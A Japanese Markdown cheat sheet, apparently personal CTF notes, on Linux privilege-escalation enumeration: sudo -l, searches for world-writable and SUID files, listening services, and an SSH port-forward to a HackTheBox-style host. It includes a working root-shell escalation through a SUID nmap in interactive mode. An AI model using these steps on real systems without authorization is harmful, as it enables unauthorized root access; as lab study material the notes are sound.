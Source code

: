 ## 権限エスカレーションの調査
### OSの調査
```bash
uname -ar
```
```bash
cat /etc/os-release
```

### 今のユーザーで実行可能な`sudo`権限の一覧
```bash
sudo -l
```

### 誰でも書き込み可能なファイルの調査
```bash
find / -perm -o+w -type f 2>/dev/null | grep /proc -v
```

### `setuid`ビットがセットされたファイルの調査
```bash
find / -type f -perm -4000 2>/dev/null
```
- `setuid`ビット: 実行時に所有者の権限で実行されるファイル

#### Nmapでの対話モードを使用した権限昇格
`nmap`に`setuid`ビットが設定されており、`root`権限で実行可能な場合、対話モードを利用して`root`権限を取得できます。以下はその手順です。
1. `nmap`を対話モードで起動します。
```bash
/usr/local/bin/nmap --interactive
```
2. 対話モードに入ると、以下のメッセージが表示されます。
```plaintext
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
```
3. 対話モードでシェルを起動します。
```plaintext
nmap> !sh
```
4. これで`root`権限のシェルにアクセスできます。`whoami`コマンドで確認します。
```bash
# whoami
root
```

### 書き込み可能なディレクトリの調査
```bash
find / -writable -type d 2>/dev/null
```
### サーバの待受けサービスの調査
```bash
netstat -ltunp
```
- #### SSHトンネリング
```bash
ssh -L 5555:localhost:8080 amay@sea.htb
```
  - 5555:攻撃者がアクセスするポート
  - localhost:やられ端末
  - 8080:やられ端末上のローカル待受けポート
  - amay@sea.htb:やられ端末
### 任意のコマンドを用いて調査
```bash
```